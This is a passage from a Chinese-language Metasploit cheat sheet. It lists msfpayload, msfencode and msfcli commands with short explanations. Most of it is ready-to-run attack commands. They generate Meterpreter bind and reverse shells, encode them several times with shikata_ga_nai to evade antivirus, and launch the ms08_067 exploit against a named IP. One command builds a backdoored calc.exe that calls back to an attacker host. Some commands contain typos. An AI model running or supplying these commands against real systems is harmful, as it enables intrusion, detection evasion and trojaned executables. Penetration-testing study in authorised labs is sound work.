 与上面生成同样的攻击载荷，到导成原始格式的文件，该文件将在后面的MSFencode中使用。

- msfpayload windows/meterpreter/bind_tcp LPORT=443 C>payload.c

与上面生成同样的攻击载荷，但导出成C格式的shellcode。

- msfpayload windows/meterpreter/bind_tcp LPORT=443 J>payload.java

导出成以%u编码方式的javaScript语言字符串。

 

### 4.MSFencode命令

- msfencode -h

列出MSFencode的帮助信息。

- msfencode -l

列出所有可用的编码器。

- msfencode -t（c，eif.exe，java，js_be，perl，raw，ruby，vba，vbs，loop-vbs，asp，war，macho）

显示编码缓冲区的格式。

- msfencode -i payload.raw -o encoded_payload,exe -e x86/shikata_ga_nai -c 5 -t exe

使用 shikata_nai编码器对payload.raw文件进行5次编码，然后导出一个名为encoded_payload.exe的文件。

- msfpayload windows/meterpreter/bind_tcp LPORT=443 R|msfencode -e x86/_countdown -c 5 -t raw|msfencode -e x86/shikata_ga_nai -c 5 -t exe -o multi-encoded_payload.exe

创建一个经过多种编码格式嵌套编码的攻击载荷。

- msfencode -i payload.raw BufferRegister=ESI -e x86/alpha_mixed -t c

创建一个纯字母 数字的shellcode，由ESI寄存器指向shellcode，以C语言格式输出。

 

### 5.MSFcli命令。

- msfcli | grep exploit

仅列出渗透攻击模块。

- msfcli | grep exploit/windows

仅列出与Windows相关的渗透攻击模块。

- msfcli exploit/windows/smb/msf08_067_netapi PYALOAD=windows/meterpreter/bind_tcp LPORT=443 RHOST=172.16.32.142 E

对172.16.32.142 发起ms08_067_netapi渗透攻击，配置了bind_tcp攻击载荷，并绑定在443端口进行监听。

 

### 6.Metasploit高级忍术

- msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=443 R|msfencode -x calc.exe -k -o payload.exe -c x86/shikata_ga_nai -c 7 -t exe

创建一个反弹式的Meterpreter攻击载荷，回连到192.168.1.5 主机的443端口，使用calc.exe作为载荷后门程序，让载荷执行流一直运行在被攻击的应用程序中，最后生成以.shikata_ga_nai编码器编码后的攻击载荷可执行程序payload.exe。
